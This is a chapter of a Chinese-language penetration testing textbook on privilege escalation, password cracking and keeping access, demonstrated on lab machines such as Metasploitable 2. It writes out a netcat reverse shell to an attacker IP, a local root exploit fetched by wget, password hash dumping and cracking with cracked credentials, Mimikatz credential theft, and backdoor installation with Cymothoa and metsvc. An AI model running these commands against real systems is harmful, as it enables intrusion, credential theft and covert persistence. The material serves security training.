










# 第九章：特权升级和保持访问

在上一章中，我们利用了在漏洞扫描过程中发现的漏洞来攻击目标机器。然而，当你利用系统时所获得的访问级别取决于你所利用的服务。例如，如果你利用了 Web 应用程序中的漏洞，你很可能会获得与运行该服务的帐户相同的访问级别；比如`www`数据。

在本章中，我们将提升对系统的访问权限，然后实施方法来保持对被攻击系统的访问权限，以防失去连接或需要返回到该系统。

# 技术要求

本章将需要 Kali Linux、Metasploitable 2 和 Nmap 安装在我们的系统上。

# 特权升级

特权升级可以定义为利用漏洞来获取对系统的提升访问权限的过程。

有两种特权升级：

+   **垂直特权升级**：在这种类型中，权限较低的用户能够访问为权限最高的用户设计的应用程序功能，例如，内容管理系统，其中用户能够访问系统管理员功能。

+   **水平特权升级**：当普通用户能够访问为其他普通用户设计的功能时发生。例如，在一个互联网银行应用程序中，用户 A 能够访问用户 B 的菜单。

以下是可以用来获取未经授权访问目标的特权升级向量：

+   本地利用

+   利用配置错误，比如一个可访问的家目录，其中包含一个允许访问其他机器的 SSH 私钥

+   利用目标上的弱密码

+   嗅探网络流量以捕获凭据

+   欺骗网络数据包

# 本地提升

在本节中，我们将使用本地利用来提升我们的特权。

为了证明这一点，我们将使用以下虚拟机：

+   Metasploitable 2 作为我们的受害机

+   Kali Linux 作为我们的攻击机

首先，我们将识别受害机器上可用的开放网络服务。为此，我们使用 Nmap 端口扫描仪并使用以下命令：

```
nmap -p- 172.16.43.156
```

我们配置 Nmap 使用`-p-`选项扫描所有端口（从端口`1`到端口`65,535`）。

以下截图显示了上述命令的简要结果：


在互联网上做了一些研究后，我们发现`distccd`服务存在一个漏洞，可能允许恶意用户执行任意命令。`distccd`服务用于在一组相似配置的系统中扩展大型编译作业。

接下来，在 Metasploit 中搜索是否有这个易受攻击服务的利用：


从上面的截图中，我们可以看到 Metasploit 有对易受攻击的`distccd`服务的利用。

让我们尝试利用该服务，如下图所示：



我们能够利用该服务并发出操作系统命令来查找我们的特权：`daemon`。

下一步是探索系统以获取更多关于它的信息。现在，让我们通过发出以下命令来查看内核版本：

```
uname -r
```

使用的内核版本是`2.6.24-16-server`。

我们搜索了`exploit-db`数据库，并找到了一个漏洞利用（[`www.exploit-db.com/exploits/8572/`](http://www.exploit-db.com/exploits/8572/)），可以让我们提升特权到`root`。然后我们使用以下命令搜索 Kali Linux 漏洞利用术语`udev`，这与`exploit-db`网页中的漏洞利用匹配：

```
searchsploit udev
```

这个命令产生以下输出：


接下来，我们需要将这个利用程序从攻击机器传输到受损机器。我们可以使用受损机器的`wget`命令来做到这一点。首先，将利用程序传输到我们的机器上受损机器将查找文件的文件夹。使用命令行复制利用程序，输入以下命令：

```
cp /usr/share/exploitdb/platforms/linux/local/857s.c /var/www/html
```

接下来，确保`apache2`服务器正在运行，输入以下命令：

```
service apache2 start
```

我们可以使用受损机器上的`wget`命令从攻击机器下载利用程序，该命令会在攻击机器的`/var/www/html`文件夹中查找文件：


成功下载利用程序后，我们使用以下`gcc`命令在受害机器上编译它：

```
gcc 8572.c -o 8572
```

现在我们的利用程序已经准备好使用了。根据源代码，我们发现这个利用程序需要`udevd netlink`套接字的**进程标识符**（**PID**）作为参数。我们可以通过发出以下命令来获取这个值：

```
cat /proc/net/netlink
```

以下截图显示了这个命令的结果：



您还可以通过发出以下命令来获取`udev`服务的 PID，即`1`：

```
ps aux | grep udev
```

以下命令行截图是前面命令的结果：


在真实的渗透测试过程中，您可能希望设置一个具有与目标相同内核版本的测试机器来测试利用程序。

根据我们对受害者机器的信息收集，我们知道这台机器安装了 Netcat。一旦利用运行，我们将使用 Netcat 连接回我们的机器，以便给我们 root 访问权限。根据利用源代码信息，我们需要将有效载荷保存在一个名为`run`的文件中：

```
echo '#!/bin/bash' > run echo '/bin/netcat -e /bin/bash 172.16.43.150 31337' >> run
```

我们还需要通过发出以下命令在攻击机器上启动 Netcat 监听器：

```
nc -vv -l -p 31337
```

唯一剩下的事情就是使用所需的参数运行利用程序：

```
./8512.c 2675
```

在我们的攻击机器上，我们可以看到以下消息：


在发出`whoami`命令后，我们可以看到我们已成功将特权提升为 root。

# 密码攻击工具

目前密码被用作认证用户登录系统的主要方法。用户提交正确的用户名和密码后，系统将允许用户登录并根据该用户名的授权访问其功能。

以下三个因素可以用来对认证类型进行分类：

+   **你知道的东西**：这通常被称为认证的第一因素。密码属于这种类型。理论上，这个因素应该只有被授权的人知道。但在现实中，这个因素很容易泄露或被捕获；因此不建议使用这种方法对用户进行敏感系统的认证。

+   **你拥有的东西**：这通常被称为认证的第二因素，这个因素的例子包括安全令牌和卡片。在您向系统证明您拥有认证因素之后，您将被允许登录。这个因素的缺点是容易被克隆。

+   **你是的东西**：这通常被称为认证的第三因素，例如生物识别和视网膜扫描。这个因素是最安全的，但已经有几种已公开的攻击针对这个因素。

为了更安全，人们通常使用多于一个因素。最常见的组合是使用第一和第二因素的认证。由于这种组合使用了两个认证因素，通常被称为双因素认证。

很遗憾，根据我们的渗透测试经验，基于密码的身份验证仍然被广泛使用。作为一名渗透测试人员，在渗透测试过程中，您应该检查密码安全性。

根据密码攻击的方式，这个过程可以分为以下类型：

+   **离线攻击**：在这种方法中，攻击者从目标机器获取哈希文件并将其复制到攻击者的机器上。然后，攻击者使用密码破解工具来破解密码。使用此方法的优势在于，攻击者无需担心目标机器中可用的密码阻止机制，因为该过程是在本地完成的。

+   **在线攻击**：在这种方法中，攻击者尝试通过猜测凭据来登录远程机器。这种技术可能会触发远程机器在多次尝试猜测密码失败后阻止攻击者机器。

# 离线攻击工具

此类别中的工具用于离线密码攻击。通常，这些工具用于进行垂直特权升级，因为您可能需要特权帐户来获取密码文件。

当您已经拥有特权凭据时，为什么还需要其他凭据？在对系统进行渗透测试时，您可能会发现特权帐户可能没有配置来运行应用程序。如果是这种情况，您就无法测试它。但是，在您以普通用户身份登录后，您就能够正确运行应用程序。这就是您需要获取其他凭据的原因之一。

另一个案例是，在利用 SQL 注入漏洞后，您能够转储数据库并发现凭据是使用哈希存储的。为了帮助您从哈希中获取信息，您可以使用此类别中的工具。

# John the Ripper

John the Ripper ([`www.openwall.com/john/`](http://www.openwall.com/john/)) 是一个可以用来破解密码哈希的工具。目前，它可以破解 40 多种密码哈希类型，如 DES、MD5、LM、NT、crypt、NETLM 和 NETNTLM。使用 John 而不是本章中描述的其他密码破解工具的原因之一是，John 能够使用 DES 和 crypt 加密算法。

要启动 John 工具，请使用控制台执行以下命令：

```
 # john
```

这将在屏幕上显示 John 的使用说明。

John 支持以下四种密码破解模式：

+   **单词列表模式**：在这种模式下，您只需要提供单词列表文件和要破解的密码文件。单词列表文件是一个包含可能密码的文本文件。每行只有一个单词。您还可以使用规则指示 John 根据规则修改单词列表中包含的单词。要使用单词列表，只需使用`--wordlist=<wordlist_name>`选项。您可以创建自己的单词列表，也可以从其他人那里获取。有许多网站提供单词列表。例如，有来自 Openwall Project 的单词列表，可以从[`download.openwall.net/pub/wordlists/`](http://download.openwall.net/pub/wordlists/)下载。

+   **单破解模式**：这种模式是由 John 的作者建议首先尝试的。在这种模式下，John 将使用登录名、全名字段和用户的主目录作为密码候选项。然后，这些密码候选项被用来破解它们所取自的帐户的密码，或者用来破解具有相同盐的密码哈希。因此，它比单词列表模式要快得多。

+   **递增模式**：在这种模式下，John 将尝试所有可能的字符组合作为密码。虽然这是最强大的破解方法，但如果您不设置终止条件，该过程将需要很长时间。终止条件的示例是设置短密码限制和使用小字符集。要使用此模式，您需要在 John 的配置文件中分配递增模式。预定义的模式有 All、Alnum、Alpha、Digits 和 Lanman，或者您可以定义自己的模式。

+   **外部模式**：使用此模式，您可以使用 John 使用的外部破解模式。您需要创建一个名为`[List.External:MODE]`的配置文件部分，其中`MODE`是您分配的名称。此部分应包含用 C 编程语言的子集编程的函数。稍后，John 将编译并使用此模式。您可以在[`www.openwall.com/john/doc/EXTERNAL.shtml`](http://www.openwall.com/john/doc/EXTERNAL.shtml)上阅读更多关于此模式的信息。

如果您在命令行中没有指定 John 的破解模式作为参数，它将使用默认顺序。首先，它将使用单破解模式，然后是字典模式，之后将使用增量模式。

在您可以使用 John 之前，您需要获取密码文件。在 Unix 世界中，大多数系统使用`shadow`和`passwd`文件。您可能需要以 root 用户身份登录才能读取 shadow 文件。

获取密码文件后，您需要将这些文件组合起来，以便 John 可以使用它们。为了帮助您，John 为您提供了一个名为`unshadow`的工具。

以下是组合 shadow 和`passwd`文件的命令。为此，我使用 Metasploitable 2 虚拟机中的`/etc/shadow`和`/etc/passwd`文件，并将它们放在一个名为`pwd`的目录中，分别命名为`etc-shadow`和`etc-passwd`：

```
# unshadow etc-passwd etc-shadow > pass
```

以下是`pass`文件内容的片段：

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
```

要破解密码文件，只需给出以下命令，其中`pass`是您刚生成的密码列表文件：

```
john pass
```

如果 John 成功破解了密码，它将把这些密码存储在`john.pot`文件中。要查看密码，您可以发出以下命令：

```
john --show pass
```

在这种情况下，John 很快地破解了密码，如下面的屏幕截图所示：


以下表格是破解密码的列表：

| **用户名** | **密码** |
| --- | --- |
| `postgres` | `postgres` |
| `user` | `user` |
| `msfadmin` | `msfadmin` |
| `service` | `service` |
| `klog` | `123456789` |
| `sys` | `batman` |

在`pass`文件中列出的七个密码中，John 设法破解了六个密码。只有`root`的密码无法立即破解。

如果您想破解 Windows 密码，首先需要从 Windows 系统和 SAM 文件中提取 Windows 密码哈希（LM 和/或 NTLM）以`pwdump`输出格式。您可以查阅[`www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump`](http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump)来了解其中几种实用程序。其中之一是 Kali Linux 中提供的`samdump2`。

要使用`password.lst`字典破解从`samdump2`获取的 Windows 哈希，您可以使用以下命令，并且获取的输出显示在以下屏幕截图中：

```
    # john test-sam.txt --wordlist=password.lst --format=nt
```


`password.lst`文件内容如下：

```
password01 
```

要查看结果，请给出以下命令：

```
    # john test-sam.txt --format=nt --show 
```

以下屏幕截图显示了获取的密码片段：


John 能够获取 Windows 机器的管理员密码，但无法破解`tedi`用户的密码。

如果 GUI 更适合您，John 还有一个名为 Johnny 的图形界面。

要启动 Johnny，请打开控制台并输入以下命令：

```
# johnny
```

然后您将看到 Johnny 窗口。

以下屏幕截图显示了破解相同 Metasploitable 2 哈希的结果：



# Ophcrack

Ophcrack 是基于彩虹表的密码破解程序，可用于破解 Windows LM 和 NTLM 密码哈希。它作为命令行和图形用户界面程序提供。就像 RainbowCrack 工具一样，Ophcrack 基于时间-内存折衷方法。

要启动`ophcrack`命令行，请使用控制台执行以下命令：

```
    # ophcrack-cli  
```

这将在您的屏幕上显示 Ophcrack 的使用说明和示例。

要启动 Ophcrack GUI，请使用控制台执行以下命令：

```
    # ophcrack  
```

这将显示 Ophcrack GUI 页面。

在使用 Ophcrack 之前，您需要从 Ophcrack 网站（[`ophcrack.sourceforge.net/tables.php`](http://ophcrack.sourceforge.net/tables.php)）获取彩虹表。目前，有三个可以免费下载的表：

+   **小型 XP 表**：这是一个 308 MB 的压缩文件。成功率为 99.9％，包含数字、小写和大写字母字符集。您可以从[`downloads.sourceforge.net/ophcrack/tables_xp_free_small.zip`](http://downloads.sourceforge.net/ophcrack/tables_xp_free_small.zip)下载。

+   **快速 XP 表**：与小型 XP 表具有相同的成功率和字符集，但与小型 XP 表相比速度更快。您可以从[`downloads.sourceforge.net/ophcrack/tables_xp_free_fast.zip`](http://downloads.sourceforge.net/ophcrack/tables_xp_free_fast.zip)获取。

+   **Vista 表**：成功率为 99.9％，目前基于带有变体的字典词。这是一个 461 MB 的压缩文件。您可以从[`downloads.sourceforge.net/ophcrack/tables_vista_free.zip`](http://downloads.sourceforge.net/ophcrack/tables_vista_free.zip)获取。

例如，我们使用`xp_free_fast`表，并且已提取并将文件放在`xp_free_small`目录中。Windows XP 密码哈希文件存储在`pwdump`格式的`test-sam`文件中。

我们使用以下命令来破解先前获得的 Windows 密码哈希：

```
    # ophcrack-cli -d fast -t fast -f test-sam
```

以下输出显示了破解过程：

```
    Four hashes have been found in test-sam:
    Opened 4 table(s) from fast.
    0h  0m  0s; Found empty password for user tedi (NT hash #1)
    0h  0m  1s; Found password D01 for 2nd LM hash #0
    0h  0m 13s; Found password PASSWOR for 1st LM hash #0in table XP free fast #1 at column 4489.
    0h  0m 13s; Found password password01 for user Administrator (NT hash #0)
    0h  0m 13s; search (100%); tables: total 4, done 0, using 4; pwd found 2/2.

```

以下是`ophrack`的结果：

```
    Results:
    username / hash                  LM password    NT password
    Administrator                    PASSWORD01     password01
    tedi                             *** empty ***  *** empty ***

```

您可以看到 Ophcrack 能够获取相应用户的所有密码。

另一个要查看的工具是 RainbowCrack。在 Kali 中，RainbowCrack 带有三个工具：`rtgen`，`rtsort`和`rcrack`。

要使用 RainbowCrack 或 OphCrack 工具，您将需要彩虹表。您可以在以下位置获取一些免费表：

+   [`www.freerainbowtables.com/en/tables/`](http://www.freerainbowtables.com/en/tables/)

+   [`rainbowtables.shmoo.com/`](http://rainbowtables.shmoo.com/)

+   [`ophcrack.sourceforge.net/tables.php`](http://ophcrack.sourceforge.net/tables.php)

# samdump2

要从 Windows 2K/NT/XP/Vista SAM 数据库注册表文件中提取密码哈希，您可以使用`samdump2`（[`sourceforge.net/projects/ophcrack/files/samdump2/`](https://sourceforge.net/projects/ophcrack/files/samdump2/)）。使用`samdump2`，您无需首先提供**系统密钥**（SysKey）即可获取密码哈希。SysKey 是用于加密**安全帐户管理器**（SAM）文件中哈希的密钥。它是在 Windows NT Service Pack 3 中引入和启用的。

要启动`samdump2`，请使用控制台执行以下命令：

```
    # samdump2  
```

这将在您的屏幕上显示简单的使用说明。

有几种方法可以获取 Windows 密码哈希：

+   第一种方法是使用`samdump2`程序利用 Windows`system`和 SAM 文件。这些文件位于`c:%windows%system32config`目录中。如果 Windows 正在运行，此文件夹对所有帐户都是锁定的。要解决此问题，您需要启动 Linux Live CD，例如 Kali Linux，并挂载包含 Windows 系统的磁盘分区。之后，您可以将系统和 SAM 文件复制到您的 Kali 机器上。

+   第二种方法是使用`pwdump`程序及其相关的变体工具从 Windows 机器获取密码哈希文件。

+   第三种方法是使用 meterpreter 脚本中显示的`hashdump`命令。要使用此方法，您需要利用系统并首先上传 meterpreter 脚本。

在我们的练习中，我们将转储 Windows XP SP3 密码哈希。我们假设您已经拥有系统和 SAM 文件，并已将它们存储在您的主目录中，如 system 和`sam`。

以下命令用于使用`samdump2`转储密码哈希：

```
    # samdump2 system sam -o test-sam
```

输出保存在`test-sam`文件中。以下是`test-sam`文件内容：

```
Administrator:500:e52cac67419a9a22c295285c92cd06b4:b2641aea8eb4c00ede89cd2b7c78f6fb::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
HelpAssistant:1000:383b9c42d9d1900952ec0055e5b8eb7b:0b742054bda1d884809e12b10982360b::: 
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:a1d6e496780585e33a9ddd414755019a::: 
tedi:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

然后可以将`test-sam`文件提供给密码破解工具，如 John 或 Ophcrack。

# 在线攻击工具

在前一节中，我们讨论了几种可以用于离线模式下破解密码的工具。在本节中，我们将讨论一些必须在连接到目标机器时使用的密码攻击工具。

我们将讨论可用于以下目的的工具：

+   生成单词列表

+   查找密码哈希

+   在线密码攻击工具

前两个工具用于从目标网站收集的信息生成单词列表，而另一个工具用于在在线密码哈希服务数据库中搜索密码哈希。

在线密码攻击工具将尝试登录到远程服务，就像用户登录一样，使用提供的凭据。该工具将尝试多次登录，直到找到正确的凭据为止。

这种技术的缺点是，因为您直接连接到目标服务器，您的操作可能会被注意到并被阻止。此外，由于该工具利用了登录过程，因此与离线攻击工具相比，运行时间会更长。

尽管该工具速度较慢且可能触发阻止机制，但通常无法使用离线密码破解工具破解网络服务，如 SSH、Telnet 和 FTP。在进行在线密码攻击时，您可能需要非常小心；特别是在对 Active Directory（AD）服务器进行暴力破解时，可能会阻止所有用户帐户。您需要首先检查密码和锁定策略，然后尝试为所有帐户仅使用一个密码，以免阻止帐户。

# CeWL

自定义单词列表（CeWL）（[`www.digininja.org/projects/cewl.php`](http://www.digininja.org/projects/cewl.php)）生成器是一个工具，它将爬取目标统一资源定位符（URL）并创建在该 URL 上找到的单词的唯一列表。然后可以将此列表用于密码破解工具，如 John the Ripper。

以下是 CeWL 中几个有用的选项：

+   `depth N`或`-d N`：这将设置蜘蛛深度为`N`；默认值为`2`

+   `min_word_length N`或`-m N`：这是最小单词长度；默认长度为`3`

+   `verbose`或`-v`：这会提供详细输出

+   `write`或`-w`：这是将输出写入文件

如果在 Kali 中运行 CeWL 时出现错误消息`Error: zip/zip gem not installed`，请使用`gem install zip/zip`安装所需的 gem 来解决此问题。要解决此问题，只需按照安装`zip gem`的建议进行操作：

```
    gem install zip
    Fetching: zip-2.0.2.gem (100%)
    Successfully installed zip-2.0.2
    1 gem installed
    Installing ri documentation for zip-2.0.2...
    Installing RDoc documentation for zip-2.0.2...

```

让我们尝试从目标网站创建自定义单词列表。在这种情况下，我们将使用 Metasploitable 中的内置网站。要创建单词列表，将使用以下`cewl`命令：

```
    cewl -w metasploitable.txt http://172.16.43.156/mutillidae
```

一段时间后，结果将被创建。在 Kali 中，输出存储在根目录中。

以下是`target.txt`文件的摘要内容：

```
the 
Injection 
var 
and 
Storage 
Site 
Data 
User 
Log 
Info 
blog 
File 
HTML5 
Login 
Viewer
Lookup 
securityLevelDescription 
Mutillidae 
```

# Hydra

Hydra 是一个可以用于猜测或破解登录用户名和密码的工具。它支持许多网络协议，如 HTTP、FTP、POP3 和 SMB。它通过使用提供的用户名和密码并尝试并行登录到网络服务来工作；默认情况下，它将使用 16 个连接登录到同一主机。

要启动 Hydra，请使用控制台执行以下命令：

```
    # hydra  
```

这将在屏幕上显示 Hydra 的使用说明。

在我们的练习中，我们将对位于`172.16.43.156`的 VNC 服务器的密码进行暴力破解，并使用包含在`password.lst`文件中的密码。执行此操作的命令如下：

```
    # hydra -P password.lst 172.16.43.156 vnc  
```

以下屏幕截图显示了此命令的结果：

！[](img/403cd67e-0ad1-410b-9c20-35e7c3011c19.png)

从前面的截图中，我们可以看到 Hydra 能够找到 VNC 密码。在目标服务器上使用的密码是`password01`和`password`。

要验证 Hydra 获取的密码是否正确，只需运行`vncviewer`到远程机器并使用找到的密码。

以下截图显示了运行`vncviewer`的结果：


从前面的截图中，我们可以看到我们能够使用破解的密码登录 VNC 服务器，并获得 VNC 根凭据。太棒了！

除了使用 Hydra 命令行，还可以通过执行以下命令使用 Hydra GUI：

```
    # xhydra  
```

以下截图显示了运行 Hydra GTK 攻击目标上的 SSH 服务的结果：


# Mimikatz

Mimikatz 是一个后渗透工具，旨在为渗透测试人员提供在获得立足点后保持访问权限和破坏凭据的能力。虽然是一个独立的程序，但它已经成为 Metasploit 框架的一部分。Mimikatz 允许在不离开 Metasploit 框架的情况下在受损系统中收集凭据。一旦获得系统级别访问权限，可以使用以下命令在 meterpreter shell 中启动 Mimikatz：

```
    meterpreter > load mimikatz  
```

一旦加载了 Mimikatz，输入以下内容以获取可用命令的列表：

```
    meterpreter > help mimikatz  
```

以下截图显示了输出：



Mimikatz 有两种与 Metasploit 一起使用的方式。第一种是使用 Mimikatz 的全部功能。这些从`mimikatz_command`开始。例如，如果我们想要从受损系统中转储哈希值，输入以下命令：

```
    meterpreter > mimikatz_command -f sampdump::hashes  
```

这会产生以下输出：


另一个功能是在受损机器上搜索凭据的能力。在这里，我们使用以下命令：

```
    meterpreter > mimikatz_command -f sekurlsa::searchPasswords  
```

输出显示了 Mimikatz 如何能够获取受损系统的`Administrator`密码：


Metasploit 还包含几个利用 Mimikatz 执行后渗透活动的命令。与哈希`dump`命令类似，以下命令将从受损系统中转储哈希值：

```
    meterpreter > msv  
```

这会产生以下输出：



Metasploit 的另一个命令利用 Mimikatz 的是`Kerberos`命令，它将在受损机器上获取明文凭据：

```
    meterpreter > Kerberos  
```

然后命令产生以下输出：



# 维持访问

在提升特权到目标机器之后，我们应该采取的下一步是创建一种机制来保持我们对目标机器的访问权限。因此，将来，如果您利用的漏洞被修补或关闭，您仍然可以访问系统。在执行此操作之前，您可能需要与客户进行咨询。此外，在渗透测试期间，确保所有放置的后门都得到适当记录是非常重要的，以便在测试结束后将其删除。

现在，让我们来看一些可以帮助我们在目标机器上保持访问权限的工具。这些工具被分类如下：

+   操作系统后门

+   隧道工具

+   Web 后门

# 操作系统后门

简而言之，后门是一种方法，允许我们在目标机器上保持访问权限，而不使用正常的身份验证过程并保持不被发现。在本节中，我们将讨论几种可以用作操作系统后门的工具。

# Cymothoa

**Cymothoa**是一个后门工具，允许你将其 shellcode 注入到现有进程中。这样做的原因是为了将其伪装成一个常规进程。后门应该能够与注入的进程共存，以免引起管理员的怀疑。将 shellcode 注入到进程中还有另一个优势；如果目标系统有安全工具，只监视可执行文件的完整性，而不检查内存，那么进程的后门就不会被检测到。

要运行 Cymothoa，只需输入以下命令：

```
    cymothoa  
```

你会看到 Cymothoa 助手页面。强制选项是**进程 ID**（**PID**），`-p`，要注入的和 shellcode 编号，`-s`。

要确定 PID，您可以在目标机器上使用`ps`命令。您可以使用`-S`（列出可用的 shellcode）选项来确定 shellcode 编号：



一旦你成功入侵目标，你可以将 Cymothoa 二进制文件复制到目标机器上生成后门。

Cymothoa 二进制文件在目标机器上可用后，您需要找出要注入的进程和 shellcode 类型。

要列出 Linux 系统中运行的进程，我们可以使用带有`-aux`选项的`ps`命令。以下截图显示了运行该命令的结果。输出中有几列可用，但为了这个目的，我们只需要以下列：

+   `用户`（第一列）

+   `PID`（第二列）

+   `命令`（第十一列）


在这个练习中，我们将注入到`2765`（`udevd`）PID 中，并且我们将使用载荷编号`1`。我们需要使用`-y`选项设置载荷的端口号[port number `4444`]。以下是这种情况下的 Cymothoa 命令：

```
    ./cymothoa -p 2765 -s 1 -y 4444  
```

以下是此命令的结果：



让我们尝试从另一台机器登录到我们的后门（端口`4444`）上，发出以下命令：

```
    nc -nvv 172.31.99.244 4444  
```

这里，`172.31.99.244`是目标服务器的 IP 地址。

以下是结果：


我们已成功连接到远程机器上的后门，并且能够向远程机器发出多个命令。

由于后门附加到运行的进程，您应该意识到一旦进程被终止或远程机器被重新启动，此后门将不可用。出于这个目的，您需要一个持久的后门。

# Meterpreter 后门

Metasploit meterpreter 具有`metsvc`后门，这将允许您随时获取 meterpreter shell。

请注意，`metsvc`后门没有身份验证，因此任何能够访问后门端口的人都可以使用它。

对于我们的示例，我们将使用 Windows XP 操作系统作为受害机器，其 IP 地址为`192.168.2.21`；我们的攻击机器的 IP 地址为`192.168.2.22`。

要启用`metsvc`后门，您首先需要利用系统并获取 meterpreter shell。之后，使用 meterpreter 的 migrate 命令将进程迁移到其他进程，如`explorer.exe（2）`，这样即使受害者关闭了您的`payload（1）`，您仍然可以访问系统：



要安装`metsvc`服务，我们只需要输入以下命令：

```
    run metsvc  
```

以下是该命令的结果：


现在让我们去受害者机器。后门位于`C:Documents and SettingsAdministratorLocal SettingsTempPvtgZxEAL`。

你可以在那里看到`metsvc` EXE 和 DLL 文件。现在，让我们重新启动受害者机器，看看后门是否能够工作。

在攻击机器上，我们使用以下选项启动 multihandler，使用`metsvc`载荷，如下所示：



设置所有选项后，只需输入`execute`来运行攻击：


攻击成功执行；我们现在再次拥有了 meterpreter 会话。您可以利用 meterpreter 会话做任何事情。

要从受害者机器中删除`metsvc`服务，您可以从 meterpreter shell 运行以下命令：

```
    run metsvc -r  
```

之后，从受害者机器中删除`metsvc`文件。

# 摘要

在本章中，我们尝试提升当前访问级别，并借助许多工具来 compromise 系统上的其他账户。在下一章中，我们将攻击网络应用程序和网站，以利用配置不当的安全检查点来获取对网络和后端系统的访问权限，从而实现数据的外泄。
